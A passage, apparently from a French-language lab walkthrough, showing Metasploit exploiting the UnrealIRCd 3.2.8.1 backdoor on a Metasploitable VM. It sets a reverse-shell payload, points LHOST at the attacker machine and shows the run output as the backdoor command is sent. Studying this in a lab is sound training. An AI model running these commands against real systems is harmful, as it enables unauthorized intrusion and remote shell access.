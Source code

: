```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set PAYLOAD cmd/unix/reverse
PAYLOAD => cmd/unix/reverse
```

On peut voir les options du `PAYLOAD` avec la commande `options` désormais.\
On définit en LHOST notre IP sur l'interface réseau privé hôte.

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > options 

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.56.115   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > ifconfig eth1
[*] exec: ifconfig eth1

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.114  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::1a48:bca4:d564:58c2  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:88:5a:59  txqueuelen 1000  (Ethernet)
        RX packets 230134  bytes 19110225 (18.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 250743  bytes 35448926 (33.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.56.114
LHOST => 192.168.56.114
```

On enfin executer l'exploit, et obtenir notre reverse shell:
```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 192.168.56.114:4444 
[*] 192.168.56.115:6667 - Connected to 192.168.56.115:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.56.115:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo QWVjfmiAcpLxvElQ;
[*] Writing to socket A
[*] Writing to socket B
```